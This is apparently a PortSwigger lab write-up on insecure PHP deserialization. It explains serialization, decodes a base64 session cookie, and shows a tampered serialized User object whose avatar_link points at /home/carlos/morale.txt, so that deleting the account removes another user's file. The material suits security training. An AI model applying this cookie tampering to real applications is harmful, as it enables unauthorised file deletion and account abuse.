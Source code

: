 
# Table of Contents

1.  [Lab](#orgce92acd)
    1.  [Objective](#orged0fac3)
2.  [What is serialization ?](#orgf1afee9)
        1.  [Serialization vs Deserialization](#org2952292)
3.  [Deserialized object](#org58ec48d)
4.  [Customized object](#org8350694)



<a id="orgce92acd"></a>

# Lab

<https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-using-application-functionality-to-exploit-insecure-deserialization>

-   Credentials:
    wiener:peter


<a id="orged0fac3"></a>

## Objective

-   Delete file at /home directory of Carlos user
-   Do that with modifications at deserialized object from Cookie


<a id="orgf1afee9"></a>

# What is serialization ?

Serialization is the process of converting complex data structures, such as objects and their fields, into a &ldquo;flatter&rdquo; format that can be sent and received as a sequential stream of bytes.

Crucially, when serializing an object, its state is also persisted. In other words, the object&rsquo;s attributes are preserved, along with their assigned values.


<a id="org2952292"></a>

### Serialization vs Deserialization

Deserialization is the process of restoring this byte stream to a fully functional replica of the original object, in the exact state as when it was serialized.

The website&rsquo;s logic can then interact with this deserialized object, just like it would with any other object.


<a id="org58ec48d"></a>

# Deserialized object

-   At web page lab, CTRL + SHIFT + i to open `dev tools`
    -   Get the sessions cookie at `dev tools`
        Application > storage > Cookies
    -   The cookie are Base64 encode, at terminal ->

---

    echo 'Tzo0OiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJoaG5sYWJzZzlpcW1kNTMycXRya3h5eXRxNHQzMXhiYiI7czoxMToiYXZhdGFyX2xpbmsiO3M6MTk6InVzZXJzL3dpZW5lci9hdmF0YXIiO30=' | base64 -d

-   And we get an deserialized Object ->
    
        O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"hhnlabsg9iqmd532qtrkxyytq4t31xbb";s:11:"avatar_link";s:19:"users/wiener/avatar";}

O -> Object
s -> String
s:3 -> string lenght
; -> separator

-   We can modify that object, encode base64 again, and send to web page at our original cookie place, with `dev tools`


<a id="org8350694"></a>

# Customized object

-   Customize the user home path at cookie to carlos /home directory
    
        O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"hhnlabsg9iqmd532qtrkxyytq4t31xbb";s:11:"avatar_link";s:23:"/home/carlos/morale.txt";}
    
    Now when click at delete account func, the deleted account will be carlos account
    
    !

